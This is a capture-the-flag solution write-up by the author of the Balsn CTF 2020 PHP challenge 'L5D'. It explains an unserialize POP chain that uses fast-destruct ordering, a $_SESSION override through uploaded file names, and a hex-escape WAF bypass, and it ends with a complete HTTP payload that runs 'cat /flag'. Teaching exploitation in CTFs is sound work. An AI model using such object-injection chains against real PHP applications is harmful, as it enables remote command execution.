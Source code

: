 # Balsn CTF 2020 

# L5D

- Difficulty: ★★
- Type: Web
- Solved: 17 / 490
- Tag: Warmup, PHP, Unserialize, POP chain

## Description

「Taking L5D was a profound experience, one of the most important things in my life.」

Try this new Unserialize-Oriented Programming System a.k.a. L5D !

http://l5d.balsnctf.com:12345/index.php

PHP Version: 7.0.33

Author: kaibro


## Source Code

- [L5D](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2020/src/)

Easter egg: My source code is just 420 line ;p

## Solution


In this challenge, there are 5 classes that contain some magic methods like `__construct`, `__destruct`.

And we have a arbitrary unserialize entry point:

```php
$wtf = waf($_GET{'?'}) ? $_GET['?'] : (finalize() && die("Nice try!"));
if($goodshit = @unserialize($wtf)) {
    $is_unser_finished = true;
}
```

So our target is to chain these classes' magic method to read the `/flag` file.

And most of the classes didn't have any property (only global variable), so it is hard to do pop chain (Property Oriented Programming) exploit.

But we can use `Array` to chain these classes together, like this:

```
Array(classA, classB, classC, ...);
```

It will unserialize multiple classes at the same time, and then the magic methods of these classes will be called.

Next, we should find a path to read flag.

The `L5D_Command` class is an attractive target, its `__destruct()` will run system command with global variable `cmd`.

And the `L5D_ResetCMD` class can reset the `cmd` variable by `new_cmd` property, but we should set our `$_SESSION['name']` to `wubalubadubdub` first:

```php
if($_SESSION['name'] === 'wubalubadubdub') {
    $cmd = $this->new_cmd;
}
```

In `L5D_Login` class, you can set the right session name, but you need to know the flag content first. It is impossible. We should find another way to exploit.

Let's take a look at the `L5D_Upload` class, this class has an obvious variable override vulnerability:

```php
foreach ($_FILES as $key => $value)
    $GLOBALS[$key] = $value;
```

We can overwrite any global variable to a file array (with some information that we uploaded).

So we can use this vulnerability to override the `$_SESSION` variable by upload a file with key `_SESSION`.

And everybody knows that `$_FILES`'s value looks like:

```
Array('name' => 'xxx', 'tmp_name' => 'xxx', 'size' => 'xxx' ...)
```

It can just overwrite the `$_SESSION['name']`, and the `name` is our uploaded filename!

(Note: you should upload a valid image file, or it will call `finalize()` to destroy your `$_SESSION` and `$cmd`)

So final exploit chain is:

1. `L5D_Upload` overwrite `$_SESSION['name']` to `wubalubadubdub`
2. `L5D_ResetCMD` reset `$cmd` to `cat /flag`
3. `L5D_Command` call `system($cmd)`

But there is still a small problem, lots of `__wakeup()` function will destroy your session or some important global variable in the process of unserialization. These variables will make your exploit failed.

An easy way to control order of `__wakeup()` and `__destroy()` is to use the [Fast Destruct](https://github.com/ambionics/phpggc#fast-destruct) trick.
It means that if you define two same key in an array, the first one object will be destroyed (it will call `__destroy()`) in the process of deserilization.
So you don't need to wait until the program ends to call `__destroy()`.

Finally, one of a valid exploit chain looks like this:

```
Array(0=>L5D_Command, 1=>L5D_ResetCMD, 2=>L5D_Upload, 2=>L5D_SayMyName, 3=>L5D_Login, 3=>L5D_SayMyName, 1=>L5D_SayMyName)
```

I use a useless `L5D_SayMyName` class to destroy other object with same key.

So the executing order of above exploit chain is:

1. `L5D_Command` wakeup
2. `L5D_ResetCMD` wakeup
3. `L5D_Upload` wakeup
4. `L5D_SayMyName` wakeup and `L5D_Upload` destroy
5. `L5D_Login` wakeup
6. `L5D_SayMyName` wakeup and `L5D_Login` destroy
7. `L5D_SayMyName` wakeup and `L5D_ResetCMD` destroy
8. Program End
9. `L5D_Command` destroy and other `L5D_SayMyName` destroy

And the final part, `waf()` function will block `*` character.
We should bypass this restriction to control the `$new_cmd` variable in `L5D_ResetCMD` class.

There is a small [trick](https://github.com/ambionics/phpggc#ascii-strings) can help us. If we change the type specifier of string from `s` to `S`, then we can use `\xx` hex representation in serialization data.

`s:10:"%00*%00new_cmd"` => `S:10:"\00\2A\00new_cmd%"`

Final payload:

```
POST /?%3f=a:7:{i:0;O:11:%22L5D_Command%22:0:{}i:1;O:12:%22L5D_ResetCMD%22:1:{S:10:%22%5C00%5C2A%5C00new_cmd%22;s:9:%22cat%20/flag%22;}i:2;O:10:%22L5D_Upload%22:0:{}i:2;O:13:%22L5D_SayMyName%22:0:{}i:3;O:9:%22L5D_Login%22:0:{}i:1;O:13:%22L5D_SayMyName%22:0:{}i:3;O:13:%22L5D_SayMyName%22:0:{}} HTTP/1.1
Host: l5d.balsnctf.com:12345
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148
Content-Type: multipart/form-data; boundary=---------------------------133915844616073813622061755521
Content-Length: 840
Cookie: PHPSESSID=dq2t165cscptkm24vb57e5f872
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="l5d_file"; filename="php.jpg"
Content-Type: image/jpeg

{IMAGE DATA}
-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="_SESSION"; filename="wubalubadubdub"
Content-Type: image/jpeg

aaa
-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------133915844616073813622061755521--
```

(Note: This is not the only one exploit chain :D)

<br>
<br>


BTW

Actually, this is just a warmup challenge compared to other web challenge.

But some china teams said this challenge is too easy in the feedback.

Maybe I should prepare a more complex (or harder) warmup challenge next year XD? (flee


## Writeups

- [The Flat Network Society
](https://github.com/TFNS/writeups/tree/master/2020-11-14-BalsnCTF/l5d)
- [Super Gusser](https://github.com/Super-Guesser/ctf/tree/master/BalsnCTF2020/web/L5D)
- [安全客](https://www.anquanke.com/post/id/222675#h2-1)

